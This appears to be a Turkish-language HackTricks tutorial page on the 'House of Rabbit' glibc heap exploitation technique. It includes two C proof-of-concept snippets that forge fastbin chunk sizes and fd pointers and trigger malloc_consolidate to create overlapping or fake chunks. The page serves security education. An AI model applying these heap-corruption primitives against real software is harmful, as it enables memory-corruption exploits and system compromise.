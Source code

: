 # Tavşan Evi

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

### Gereksinimler

1. **Fastbin fd İşaretçisini veya Boyutunu Değiştirme Yeteneği**: Bu, fastbin'deki bir parçanın ileri işaretçisini veya boyutunu değiştirebileceğiniz anlamına gelir.
2. **`malloc_consolidate`'i Tetikleme Yeteneği**: Bu, ya büyük bir parça ayırarak ya da üst parçayı birleştirerek yapılabilir, bu da heap'in parçaları birleştirmesini zorlar.

### Hedefler

1. **Çakışan Parçalar Oluşturmak**: Başka bir parçayla çakışan bir parça oluşturarak heap manipülasyonları için olanak sağlamak.
2. **Sahte Parçalar Oluşturmak**: Allokatörü, heap işlemleri sırasında sahte bir parçayı meşru bir parça olarak algılamaya kandırmak.

## Saldırı Adımları

### POC 1: Bir Fastbin Parçasının Boyutunu Değiştirme

**Amaç**: Bir fastbin parçasının boyutunu manipüle ederek çakışan bir parça oluşturmak.

* **Adım 1: Parçaları Ayırın**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Adım 2: Parçaları Serbest Bırakın**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Adım 3: Parça Boyutunu Değiştirme**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Adım 4: `malloc_consolidate`'i Tetikleyin**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Büyük bir parça ayırmak, küçük parçaları hızlı kutucukta birleştiren `malloc_consolidate` işlevini tetikler. `chunk1`'in manipüle edilen boyutu, `chunk2` ile örtüşmesine neden olur.

Konsolidasyondan sonra, `chunk1`, `chunk2` ile örtüşerek daha fazla sömürüme olanak tanır.

### POC 2: FD İşaretçisini Değiştir

**Amaç**: Hızlı kutucuk fd işaretçisini manipüle ederek sahte bir parça oluşturmak.

* **Adım 1: Parçaları Ayırma**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Açıklama**: Sahte bloğu oluşturmak için daha küçük ve daha büyük olmak üzere iki blok tahsis ediyoruz.

* **Adım 2: Sahte Blok Oluştur**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Adım 3: Chunk1'i Serbest Bırakın**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Açıklama**: `chunk1`'i serbest bırakıyoruz, onu fastbin listesine ekliyoruz.

* **Adım 4: Chunk1'in FD'sini Değiştirin**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Açıklama**: `chunk1`'in ileri işaretçisini (fd) `chunk2` içindeki sahte parçaya işaret edecek şekilde değiştiriyoruz.

* **Adım 5: `malloc_consolidate`'i Tetikle**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Bir büyük parça yeniden tahsis edildiğinde `malloc_consolidate` tetiklenir, sahte parçayı işler.

Sahte parça, fastbin listesinin bir parçası haline gelir, bu da onu daha fazla sömürü için geçerli bir parça yapar.

### Özet

**House of Rabbit** tekniği, ya bir fastbin parçasının boyutunu değiştirerek çakışan parçalar oluşturmayı ya da fd işaretçisini manipüle ederek sahte parçalar oluşturmayı içerir. Bu, saldırganların yığında geçerli parçaları oluşturmasına olanak tanır ve çeşitli sömürü biçimlerini etkinleştirir. Bu adımları anlamak ve uygulamak, yığın sömürü becerilerinizi geliştirecektir.
